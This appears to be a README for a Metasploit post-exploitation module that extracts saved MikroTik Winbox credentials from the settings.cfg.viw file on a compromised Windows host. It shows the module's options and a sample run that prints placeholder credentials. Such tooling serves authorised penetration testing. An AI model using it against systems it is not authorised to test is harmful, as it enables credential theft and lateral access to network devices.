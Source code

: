 # Metasploit - winbox_settings

Post module for Metasploit to extracts Mikrotik Winbox credentials saved in the "settings.cfg.viw" file when the "Keep Password" option is selected in Winbox.

## Module options

```
Module options (post/windows/gather/credentials/winbox_settings):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  5                yes       The session to run this module on
   VERBOSE  false            no        HexDump settings.cfg.viw files
```

## Example

```
msf6 post(windows/gather/credentials/winbox_settings) > run

[*] VERBOSE: false
[*] Checking Default Locations...
[*] C:\Users\Administrator\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw not found ....
[*] Found File at C:\Users\FooBar\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw
[+] Login: ThisIsUsername
[+] Password: ThisIsPassword
[*] Post module execution completed
```

## Author

[Pasquale 'sid' Fiorillo](https://www.pasqualefiorillo.it/)

Thanks to [ISGroup](https://www.isgroup.biz/) :heart:

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/F1F3SGS48)
